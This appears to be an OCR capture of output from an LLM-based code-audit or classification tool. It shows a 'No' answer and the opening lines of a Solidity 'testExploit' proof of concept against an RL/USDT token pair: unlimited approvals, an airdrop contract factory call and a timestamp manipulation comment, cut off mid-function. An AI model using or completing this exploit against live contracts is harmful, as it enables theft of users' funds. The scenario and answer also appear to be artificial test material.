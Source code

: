 ╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {                                                                                                                                                                                                                                                    │
│     "1": "No"                                                                                                                                                                                                                                        │
│ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() external{                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker USDT balance before exploit",                                                                                                                                                                                          │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         USDT.approve(address(Router), ~uint256(0));                                                                                                                                                                                                  │
│         RL.approve(address(Router), ~uint256(0));                                                                                                                                                                                                    │
│         Pair.approve(address(Router), ~uint256(0));                                                                                                                                                                                                  │
│         airDropContractFactory();                                                                                                                                                                                                                    │
│         //change timestamp to pass check                                                                                                                                                                                                             │